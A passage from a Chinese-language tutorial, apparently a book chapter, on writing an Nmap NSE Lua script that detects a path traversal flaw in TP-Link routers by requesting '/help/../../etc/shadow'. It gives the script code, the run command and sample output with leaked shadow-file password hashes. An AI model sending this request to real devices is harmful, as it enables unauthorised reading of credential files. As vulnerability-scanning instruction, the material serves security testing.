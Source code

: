 1.  加载所需的库（Nmap 6.x 格式）：

```
local http = require "http"
local io = require "io"
local shortport = require "shortport"
local stdnse = require "stdnse"
local string = require "string"
local vulns = require "vulns"
```

1.  使用`shortport`库的帮助定义执行规则：

```
portrule = shortport.http
```

1.  编写一个函数来发送路径遍历请求并确定 Web 应用程序是否易受攻击：

```
local function check_vuln(host, port)
  local evil_uri = "/help/../../etc/shadow"
  stdnse.print_debug(1, "%s:HTTP GET %s", SCRIPT_NAME, evil_uri)
  local response = http.get(host, port, evil_uri)
  if response.body and response.status==200 and response.body:match("root:") then
    stdnse.print_debug(1, "%s:Pattern 'root:' found.", SCRIPT_NAME, response.body)
    return true
  end
  return false
end
```

1.  读取并解析响应中的文件，借助 Lua 捕获(`.*`)的一些帮助：

```
local _, _, rfile_content = string.find(response.body, 'SCRIPT>(.*)')
```

1.  最后，使用以下命令执行脚本：

```
$ nmap -p80 --script http-tplink-dir-traversal.nse <target>

```

易受攻击的设备将产生以下输出：

```
-- @output
-- PORT   STATE SERVICE REASON
-- 80/tcp open  http    syn-ack
-- | http-tplink-dir-traversal:
-- |   VULNERABLE:
-- |   Path traversal vulnerability in several TP-Link wireless routers
-- |     State: VULNERABLE (Exploitable)
-- |     Description:
-- |       Some TP-Link wireless routers are vulnerable to a path traversal vulnerability that allows attackers to read configurations or any other file in the device.
-- |       This vulnerability can be exploited remotely and without authentication.
-- |       Confirmed vulnerable models: WR740N, WR740ND, WR2543ND
-- |       Possibly vulnerable (Based on the same firmware): WR743ND,WR842ND,WA-901ND,WR941N,WR941ND,WR1043ND,MR3220,MR3020,WR841N.
-- |     Disclosure date: 2012-06-18
-- |     Extra information:
-- |       /etc/shadow :
-- |   
-- |   root:$1$$zdlNHiCDxYDfeF4MZL.H3/:10933:0:99999:7:::
-- |   Admin:$1$$zdlNHiCDxYDfeF4MZL.H3/:10933:0:99999:7:::
-- |   bin::10933:0:99999:7:::
-- |   daemon::10933:0:99999:7:::
-- |   adm::10933:0:99999:7:::
```